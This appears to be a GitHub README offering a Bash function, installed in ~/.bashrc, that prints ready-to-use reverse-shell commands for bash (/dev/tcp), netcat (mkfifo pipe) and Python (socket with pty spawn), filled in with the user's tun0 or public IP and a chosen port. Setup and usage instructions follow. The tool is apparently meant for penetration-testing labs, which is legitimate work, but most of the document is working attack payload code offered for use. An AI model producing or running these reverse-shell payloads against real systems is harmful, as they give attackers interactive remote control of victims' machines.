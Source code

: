 # Set a Bash Alias for Common Reverse Shell's
```bash
reverse ()
{
  local port=443;
  adaptors=$(ip a | egrep ^[0-9]+ | cut -d" " -f 2 | sed 's/://g');
  OPTIND=1;
  usage()( echo "reverse [-i <interface>] [-l <language>] [-p <port>]";
  printf "Language Options:\n  bash\n  nc\n  python\n\n" );
  while getopts ":i:l:p:h" options; do
      case "${options}" in
        i) local interface=${OPTARG};
          if ! echo $interface |  egrep -qo "public"; then
            if ! echo $adaptors | grep -qo "$interface"; then
              echo  "Interface "${OPTARG}" does not exist";
              usage;
              return;
            fi;
          fi
          ;;
        l) local language=${OPTARG}
          ;;
        p) local port=${OPTARG}
          ;;
        h) usage;
          return
          ;;
        :) echo "Error: -${OPTARG} requires an argument";
          usage;
          return
          ;;
        *) echo "Unknown Switch: -${OPTARG}";
          usage;
          return
          ;;
        esac;
      done;
      if [ -z $interface ]; then
        if ip a | egrep -qo "tun0"; then
          local interface="tun0";
        elif echo $interface | egrep -qo "public" ; then
          local interface="public";
        elif ip a | egrep -qo "eth0"; then
          local interface="eth0";
        elif ip a | egrep -qo "ens33"; then
          local interface="ens33";
        else
          local interface="lo";
        fi;
      fi;
      if echo $interface | egrep -qo "public"; then
        local ip=$(wget -qO - ipv4.icanhazip.com);
      else
        local ip=$(ip a show $interface | egrep -o "([0-9]{1,3}.){3}[0-9]{1,3}" | head -1);
      fi;
      local randName=$(head -4 /dev/urandom | sha256sum | base64 | head -c 5);
      declare -A shells=( ["bash"]="bash -i >& /dev/tcp/$ip/$port 0>&1" ["nc"]="mkfifo /tmp/$randName; nc $ip $port 0</tmp/$randName | /bin/sh >/tmp/$randName 2>&1; rm /tmp/$randName" ["python"]="python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$ip",$port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'" );
      if [ -z $language ]; then
        printf "\n";
        for i in "${shells[@]}";do
          printf "$i\n\n";
        done;
        return;
      fi;
      printf "\n${shells[$language]}\n\n"; }
```
# Instructions
<br>
• 1. vim ~/.bashrc
<br>
• 2. copy and paste the above text (see screenshot)
<br>
• 3. save, then open a new terminal and type "<b>reverse -h</b>"
<br>
• 4. the function will default to your tun0 IP 

# Usage

```
reverse -h

reverse -i tun0 -p 9001

reverse -i public -p 9001
```

# Screenshots
<i>~/.bashrc</i>
<img src="https://i.imgur.com/9AtWWvn.png">
<br>
<i>running the alias</i>
<img src="https://i.imgur.com/muKxjaf.png">
<br>
<img src="https://i.imgur.com/xvULtzH.png">
<br>
<b>Please feel free to modify this!</b>
<br>
<center>Special thanks to https://github.com/MuirlandOracle for the quirky Bash help! </center> 
